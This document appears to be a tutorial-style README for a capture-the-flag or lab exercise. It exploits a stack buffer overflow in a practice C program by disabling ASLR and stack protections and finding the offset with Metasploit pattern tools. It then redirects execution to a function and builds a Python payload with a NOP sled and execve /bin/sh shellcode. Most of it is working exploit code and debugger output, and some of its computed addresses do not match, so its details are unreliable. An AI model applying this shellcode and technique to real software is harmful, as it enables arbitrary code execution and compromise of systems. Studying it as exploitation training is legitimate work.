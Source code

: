# Buffer overflow example 

Disable randomize_va_space on kernel:
```shell
sudo sysctl kernel.randomize_va_space=0
```

Compile example
```shell
#gcc -o reto reto.c -fno-stack-protector -z execstack -g -fPIE
gcc -g -fno-stack-protector -z execstack -mpreferred-stack-boundary=4 -o reto reto.c
```

Execute compiled software with gdb:
```shell
gdb ./reto
```

input 100 E characters with python to reto
```shell
run $(python -c 'print ("E" * 100)')
```

Run metasploit module:
```shell
/opt/metasploit/tools/exploit/pattern_create.rb -l 130
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac
3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A
```

On debuger run pattern created with metasploit module:
```shell
gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A
Starting program: /home/darthv/Downloads/scripts/scripts/reto Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A

Program received signal SIGSEGV, Segmentation fault.
0x00005555555551d5 in main (argc=2, argv=0x7fffffffe6f8) at reto.c:18
18	}
(gdb) 
```

We've got a segmentation faul, buffer has been overfloaded. 

Let's check where buffer overflow has been, in other words, we want to know the teturn memmory addreess.
```shell
(gdb) x/xw $rsp #64 bits example, if we want 32 we'd use esp.
0x7fffffffe5e8:	0x41306541
(gdb) 
```

Let's get the exactly overflow point. We send a 130 string characters with. Remember var has only 100 chars defined: ``char buffer[100];``` Vars has bit more memory as has been defined, so now let's get the exactly overflow point (offset) in order to know exactly how many characters we need to overflow. Run patter_offest.rb with -q memmory address got from 130 chars:

```shell
/opt/metasploit/tools/exploit/pattern_offset.rb -q 41306541 -l 130
[*] Exact match at offset 120
```

This means that from all 130 chars we try before, when we get 120 chars is the exactly overfloint point, this is the direcction we need. To do that we need to dissamble or get the function premio, to know the function premio address: 

```shell
(gdb) disas premio
Dump of assembler code for function premio:
   0x0000555555555159 <+0>:	push   %rbp
   0x000055555555515a <+1>:	mov    %rsp,%rbp
   0x000055555555515d <+4>:	lea    0xea4(%rip),%rax        # 0x555555556008
   0x0000555555555164 <+11>:	mov    %rax,%rdi
   0x0000555555555167 <+14>:	call   0x555555555040 <puts@plt>
   0x000055555555516c <+19>:	nop
   0x000055555555516d <+20>:	pop    %rbp
   0x000055555555516e <+21>:	ret    
End of assembler dump.
(gdb) 
```

We've got the first address memory from premio function, the first one: 0x0000555555555159, exactly: 555555555159.
Now we're going to run the same python command we run before, but now with the exactly offset chars lenght (120) and with the address premio converted from: 555555555159. to \x59\x51\x55\x55\x55\x55. This convertion is for intel little endian, so we only need to put the memmory adreeces inverted addin x.

```shell
(python -c 'print ("A" * 120 + "\x59\x51\x55\x55\x55\x55")')

[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYQUUUU
ANGEL¡¡¡ has alterado el flujo del programa

Program received signal SIGSEGV, Segmentation fault.
```

# 2 GET SHELL CODE:
Check [shell](shell.py) code and get executable attributes.

```shell
(gdb) run $(./shell.py)
Starting program: /home/darthv/Downloads/scripts/scripts/reto $(./shell.py)
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
0x00005555555551d5 in main (argc=2, argv=0x7fffffffe6a8) at reto.c:18
18	}
(gdb) 

```

We'v got memory address argv=0x7fffffffe6a8. Now lets do break point just before strcpy, before print, this will get the addreess memory where we need to put the shell code:
```shell
(gdb) list
13	         return -1;
14	    }
15	    strcpy(buffer,argv[1]);
16	    printf ("%s\n",buffer);
17	    return 0; 
18	}
e9	
(gdb) break 15
Breakpoint 1 at 0x5555555551a9: file reto.c, line 15.
(gdb) 

```

We get memory address where we want to put shell code, we need to change [shell.py](shell.py) If we run shellp.py again with break point we've get check memory addres, after we need the stack return memmory address

``shell
(gdb) x/40x $rsp
0x7fffffffe510:	0xffffe6a8	0x00007fff	0x00008000	0x00000002
0x7fffffffe520:	0x00000000	0x00000000	0x00000006	0x0000009e
0x7fffffffe530:	0x0000000a	0x0000000c	0x00000000	0x00000000
0x7fffffffe540:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe560:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe570:	0x00000000	0x00000000	0xf7fe6b60	0x00007fff
0x7fffffffe580:	0x00000000	0x00000000	0xf7ffdab0	0x00007fff
0x7fffffffe590:	0x00000002	0x00000000	0xf7dca290	0x00007fff
0x7fffffffe5a0:	0xffffe690	0x00007fff	0x5555516f	0x00005555
(gdb) 
```

What is the return address we need to atack? used to be the 3rd (empty one)
0x 7f ff ff ff e5 30 -> \x30\xe5\xff\xff\xff\x7f

Now let's change [shell.py](shell.py) with rsp (return stack pointer) memory address and change to 120 characters:
```python
#!/usr/bin/python
nops = '\x90' * 64
shellCode = (
'\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69' +
'\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05'
)
relleno = 'A' * (130 - 64 - 29)
regreso ='\x50\xe2\xff\xff\xff\x7f'
print (nops + shellCode + relleno + regreso)
```

Now clear break point and run shell.py:

```shell

```
